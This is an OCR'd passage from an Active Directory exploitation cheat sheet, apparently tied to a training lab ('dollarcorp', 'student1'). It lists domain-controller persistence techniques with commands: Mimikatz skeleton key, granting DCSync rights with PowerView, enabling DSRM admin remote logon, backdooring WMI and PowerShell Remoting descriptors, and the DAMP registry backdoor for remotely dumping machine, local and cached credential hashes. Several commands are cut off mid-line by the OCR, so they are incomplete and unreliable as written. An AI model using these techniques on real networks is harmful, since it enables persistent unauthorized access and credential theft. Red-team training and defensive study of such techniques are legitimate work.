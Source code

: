 22/31

privilege::debug
misc::skeleton

Grant specific user DCSync rights with PowerView
Gives a user of your choosing the rights to DCSync at any time
May evade detection in some setups
Add-ObjectACL -TargetDistinguishedName "dc=dollarcorp,dc

Domain Controller DSRM admin
The DSRM admin is the local administrator account of the DC
Remote logon needs to be enabled first
New-ItemProperty "HKLM:\System\CurrentControlSet\Control

Now we can login remotely using the local admin hash dumped on
the DC before with lsadump::sam see ‘Dumping secrets with
Mimikatz’ below Use e g ‘overpass the hash’ to get a session
see ‘Mimikatz’ above

Modifying security descriptors for remote WMI access
Give user WMI access to a machine using Set-RemoteWMI.ps1
cmdlet Can be run to persist access to e g DCs
Set-RemoteWMI -UserName student1 -ComputerName dcorp-dc.

For execution see ‘Command execution with WMI’ above

Modifying security descriptors for PowerShell Remoting
access
Give user PowerShell Remoting access to a machine using SetRemotePSRemoting.ps1 cmdlet Can be run to persist access to

e g DCs
https://casvancooten.com/posts/2020/11/windows-active-directory-exploitation-cheat-sheet-and-command-reference/

23/31

Set-RemotePSRemoting -UserName student1 -ComputerName dc

For execution see ‘Command execution with PowerShell
Remoting’ above

Modifying DC registry security descriptors for remote
hash retrieval using DAMP
Using DAMP toolkit we can backdoor the DC registry to give us
access on the SAM
SYSTEM and SECURITY registry hives This
allows us to remotely dump DC secrets hashes
We add the backdoor using the Add-RemoteRegBackdoor.ps1
cmdlet from DAMP

Add-RemoteRegBackdoor -ComputerName dcorp-dc.dollarcorp.

Dump secrets remotely using the RemoteHashRetrieval.ps1
cmdlet from DAMP run as ‘Trustee’ user

# Get machine account hash for silver ticket attack
Get-RemoteMachineAccountHash -ComputerName dcorp-dc
# Get local account hashes
Get-RemoteLocalAccountHash -ComputerName dcorp-dc
# Get cached credentials (if any)
Get-RemoteCachedCredential -ComputerName dcorp-dc
